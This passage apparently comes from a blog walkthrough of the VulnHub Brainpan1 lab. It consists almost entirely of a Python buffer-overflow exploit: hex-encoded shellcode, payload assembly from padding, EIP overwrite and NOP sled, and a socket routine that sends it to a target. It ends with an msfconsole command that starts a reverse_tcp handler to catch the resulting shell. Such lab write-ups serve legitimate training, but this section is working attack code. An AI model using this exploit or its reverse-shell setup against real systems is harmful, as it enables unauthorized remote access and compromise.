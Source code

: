 SC += "\x50\xde\x72\x84\x3a\xb0\xd4\x19\xfa\x60\x95\xc9\x92"
SC += "\x6a\x1a\x35\x82\x94\xf0\x5e\x28\x7b\xad\x37\xc4\xe2"
SC += "\xf4\xcc\x75\xea\x22\xa9\xb5\x60\xc7\x4d\x7b\x81\xa2"
SC += "\x5d\x6b\xf0\x4c\x9e\x6b\x99\x4c\xf4\x6f\x0b\x1a\x60"
SC += "\x6d\x6a\x6c\x2f\x8e\x59\xee\x28\x70\x1c\xc7\x43\x46"
SC += "\x8a\x67\x3c\xa6\x5a\x68\xbc\xf0\x30\x68\xd4\xa4\x60"
SC += "\x3b\xc1\xab\xbc\x2f\x5a\x39\x3f\x06\x0e\xea\x57\xa4"
SC += "\x69\xdc\xf7\x57\x5c\x5f\xff\xa8\x22\x7d\x58\xc1\xdc"
SC += "\xc1\x58\x11\xb7\xc1\x08\x79\x4c\xee\xa7\x49\xad\x25"
SC += "\xe0\xc1\x24\xab\x42\x73\x38\xe6\x03\x2d\x39\x04\x98"
SC += "\x38\xb4\xeb\x1f\x45\x36\xd0\xc9\x7c\x4c\x11\xca\x3a"
SC += "\x5f\x28\x6f\x6a\xca\x52\x23\x6c\xdf"

PAYLOAD = PADDING + EIP + NOP + SC

######################################

try:

	print "[+] Connecting to IP:", TARGET, "at PORT:", PORT
	time.sleep(1)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET,PORT))

	#Initialize connection
	data = s.recv(1024) 
	print "[+] Connected!"	
	print ""
	print ""
	time.sleep(0.5)
	print data #Debug

	print "[+] Sending the payload ..."
	time.sleep(1)
	s.send(PAYLOAD) #Sends payload
	print "[+] DONE! A reverse shell is on its way :) !"

except:
	print "[-] Error connecting!!!"
 
{% endhighlight %}

If done correctly the reverse shell should arrive to the handler you set up via `msfconsole -q -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp; set LHOST eth0; set LPORT 3333; run"`. 

<img src="/assets/img/blog/vulnhub-brainpan1/brainpan1-08.png">
